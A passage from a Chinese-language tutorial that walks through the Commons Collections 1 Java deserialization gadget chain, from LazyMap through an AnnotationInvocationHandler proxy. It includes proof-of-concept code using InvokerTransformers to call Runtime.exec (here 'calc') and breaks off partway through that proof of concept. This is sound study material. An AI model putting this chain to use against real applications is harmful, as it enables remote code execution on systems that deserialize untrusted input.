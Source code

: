         // 测试一下lazyMap
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        lazyMap.get("test");
    }

但是如何触发LazyMap的get操作呢？ysoserial中是利用代理触发LazyMap#get，即通过代理对象的handler#invoke来调用LazyMap#get。下面是创建代理对象的关键代码：

    // 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
    Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);

    // 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
    // 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
    // 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
    Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);

获取了代理对象后，就可以将代理对象封装在AnnocationInvocationHanler对象中，作为整个反序列化的入口：

    // 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
    InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

    // 最后再把真正的Transformer传入chainedTransformer
    Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
    Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
    iTransformers.setAccessible(true);
    iTransformers.set(chainedTransformer,trueTransformer);

完整的POC如下：

    @Test
    public void test6() throws Throwable {
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer(1)
        };

        // 使用ChainedTransformer，防止反序列化之前被执行，此时传入的不是真正的利用链。
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(1)
        });
        HashMap<Object, Object> hashMap = new HashMap<>();

        // 获取lazyMap
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

        // 将LazyMap封装在AnnotationInvocationHandler中，想办法触发AnnotationInvocationHandler#invoke方法，因为invoke方法内调用了lazyMap#get
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
